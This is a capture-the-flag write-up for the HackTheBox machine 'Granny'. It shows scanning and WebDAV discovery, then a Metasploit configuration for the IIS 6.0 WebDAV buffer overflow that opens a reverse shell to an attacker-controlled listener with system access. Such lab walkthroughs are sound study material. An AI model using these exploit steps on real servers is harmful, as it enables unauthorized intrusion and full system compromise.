 # Granny [HTB](https://app.hackthebox.com/machines/Granny)
![granny-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/granny-01.png)

## Recon

After adding the target to our `/etc/hosts` file, we can start scanning it with:

```bash
nmap -sC -sV -A -p- granny.htb -oN nmap.results
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/nmap-res-02.png)

We have the following:

+ An IIS v6.0 server running on port 80.

It appears that the server is running an extremly outdated IIS server, as Microsoft released IIS v6.0 with
the 2003 Windows Server on May 28, 2003, which reached End-of-Life on Jul 14, 2015. [source](https://learn.microsoft.com/en-us/lifecycle/products/internet-information-services-iis) 

I'm thinking public exploits. 


### IIS Port 80

With a quick Goolge search, we can find a public exploit for IIS V6.0 on [Exploit-DB](https://www.exploit-db.com/exploits/41738): 

![payload-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/payload-03.png)

This is a python 2 script, exploiting a buffer overflow vulnerability that lays in the `ScStoragePathFromUrl` function of the `WebDAV` Microsoft standard. 

`WebDAV` is an Internet-based open standard that enables editing Web sites over HTTP and HTTPS connections, which also supports file uploads to the server. This is not enabled by default, when you install the IIS server role, you need to check a box to enable `WebDAV`, [source](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/)

The `WebDAV` interface could be on the server root directory, or it could be on a dedicated directory,  It depends on the config file. However, a common location is `/webdav` lets give it a shot:

![find-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/find-04.png)

It says the service is unavailable, maybe its disabled? Lets try directory busting to be sure:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/IIS.fuzz.txt -u http://gra
nny.htb/FUZZ
``` 

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/ffuf-05.png)

Lets open this directory:

![vti-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/vti-06.png)

Looks interesting, but were not sure if its WebDAV enabled. We can verify this with:

```bash
davtest -url http://granny.htb/_vti_bin
```

![davtest-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/davtest-07.png)

The file upload failed, that's one exploit vector, But the `WebDAV` connection succeeded, which means we 
can try the buffer-overflow exploit we found earlier for IIS 6.0. 

I've tried the python script from exploit-DB, the issue is with the shellcode, which opens `calc.exe`, 
instead of esteblishing a reverse shell. So i found another exploit on [Github](https://github.com/danigargu/explodingcan/tree/master). This one specifies that the shellcode must be alphanumerically encoded, Iv'e tried it, didnt work for me. I tried a combination of different shellcodes and exploits, nothing worked for me. 


So instead i decided to go for the Metasploit implemantation of the exploit. 

```bash
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS granny.htb
set LHOST tun0
set LPORT 443
set TARGETURI /_vti_bin
```

![options-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/options-08.png)

From here we can run `exploit`:

![root-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/root-09.png)


Not only do we get a shell, we get full system access. However do note, this is in fact a 2003 Windows 
server, the directory structure is different from modern Windows systems. The user's folders are in `C:\Documents and Stettings`. 

